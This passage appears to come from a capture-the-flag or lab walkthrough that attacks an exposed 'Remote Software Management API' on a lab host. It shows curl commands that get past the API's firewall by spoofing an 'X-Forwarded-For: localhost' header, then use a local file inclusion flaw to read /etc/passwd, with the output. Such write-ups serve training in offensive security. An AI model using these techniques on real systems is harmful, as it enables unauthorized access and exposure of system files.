 It looks to be a sensitive API that has been exposed, and the home page has the documentation for it. According to the usage guide, an update URL can be passed via a POST request to the **/update** endpoint with the following JSON data:

```
 {"user":"<user requesting the update>", "url":"<url of the update to download>"}
```

It appears that the target can download a Linux executable file (ELF) for an update and then run it by using the **/restart** endpoint. Another interesting endpoint to note is **/logs** that has the instruction `Read log files`.

## Exploitation

It looks like we need a valid username for the **/update** endpoint. Since brute-forcing it seems infeasible, we'll come back to this endpoint later.

### Bypassing WAF

If we try to visit the **/logs** endpoint (http://192.168.120.149:13337/logs), we are presented with the following error:

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.149:13337/logs                                                 
WAF: Access Denied for this Host.
```

The API appears to be "protected" by a web application firewall (WAF), which denies access to our host. However, It is easily defeated. Recalling the message `It is just for management on localhost.` on the API's home page, all we have to do is add an HTTP header `X-Forwarded-For` and set it to `localhost` to bypass this access restriction.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.149:13337/logs -H "X-Forwarded-For: localhost"
Error! No file specified. Use file=/path/to/log/file to access log files.
```

Great! We have bypassed the WAF and have now encountered a new error that appears to be generated by the application itself.

### Local File Inclusion Vulnerability

The error we observed hints at the possibility of an LFI vulnerability. Let's test this theory by trying to access the **/etc/passwd** file.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.149:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
<html>
    <head>
        <title>Remote Software Management API</title>
        <link rel="stylesheet" href="static/style.css"
    </head>
    <body>
        <center><h1 style="color: #F0F0F0;">Remote Software Management API</h1></center>
        
        
        <h2>Attention! This utility should not be exposed to external network. It is just for management on localhost. Contact system administrator(s) if you find this exposed on external network.</h2> 
        
        
        <div class="divmain">
            <h3>Log:</h3>
            <div class="divmin">
            root:x:0:0:root:/root:/bin/bash
```